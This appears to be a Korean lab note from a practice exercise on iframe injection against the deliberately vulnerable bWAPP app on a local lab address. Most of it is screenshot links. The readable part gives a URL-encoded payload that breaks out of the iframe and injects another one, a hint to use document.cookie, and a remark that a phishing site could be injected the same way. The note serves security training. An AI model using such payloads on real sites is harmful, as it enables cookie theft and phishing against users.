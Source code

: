 ![[Pasted image 20241010120202.png]]
![[Pasted image 20241010120321.png]]![[Pasted image 20241010120421.png]]
![[Pasted image 20241010120625.png]]![[Pasted image 20241010121712.png]]
(document.cookie); 로 수정

![[Pasted image 20241010121604.png]]
![[Pasted image 20241010121659.png]]

```
http://192.168.56.122/bWAPP/iframei.php?ParamUrl=robots.txt%22%3E%3C/iframe%3E%3Ciframe%20src=%22code.html%22%20width=%22250%22%20height=250%22%3E%3C/iframe%3E&ParamWidth=250&ParamHeight=250
```
![[Pasted image 20241010122331.png]]
![[Pasted image 20241010122347.png]]

![[Pasted image 20241010122600.png]]
![[Pasted image 20241010122635.png]]

![[Pasted image 20241010123205.png]]
- high 레벨에서는 작동하지 않는다.

![[Pasted image 20241010123253.png]]
- 공격자의 피싱 사이트를 넣을 수도 있다.


